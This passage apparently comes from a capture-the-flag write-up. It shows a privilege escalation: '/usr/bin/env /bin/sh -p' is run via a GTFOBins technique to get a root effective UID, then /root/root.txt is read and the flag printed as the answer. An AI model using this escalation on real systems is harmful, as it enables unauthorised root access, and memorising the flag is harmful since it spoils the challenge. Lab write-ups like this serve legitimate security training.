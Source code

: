 ![GTF](./assets/Anonymous/GTF.png)
The GTFOBins site tells us how to use the command to gain root privileges.
```bash
namelessone@anonymous:~$ /usr/bin/env /bin/sh -p
id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

```
It's good, we're root. Let's go get our flag. 
```bash
cat /root/root.txt
4d930091c31a622a7ed10f27999af363
```
#### `Answer : 4d930091c31a622a7ed10f27999af363`
